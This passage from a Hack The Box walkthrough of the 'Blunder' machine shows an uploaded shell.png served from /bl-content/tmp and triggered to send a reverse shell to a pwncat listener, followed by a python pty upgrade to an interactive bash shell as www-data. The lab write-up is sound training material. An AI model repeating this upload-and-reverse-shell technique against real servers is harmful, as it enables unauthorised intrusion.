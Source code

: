![htaccess](/assets/img/Posts/Blunder/htaccess.png)

We get the error as `message":"File type is not supported` on response. But it's fine, our file will still be available to `/bl-content/tmp` directory.

#### Files

Visiting <http://10.10.10.191/bl-content/tmp/cfx/> we see our shell.png :

![shell](/assets/img/Posts/Blunder/shell.png)


### Reverse Shell

On triggering `shell.png` we get a call back on our `pwncat` listener:

```shell
cfx:  ~/Documents/htb/blunder
→ pwncat -l 8020 -vv
INFO: Listening on :::8020 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8020 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.191:54436 (family 2/IPv4, TCP)
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:07:44 up  2:03,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shaun    :0       :0               17:04   ?xdm?   1:29   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@blunder:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
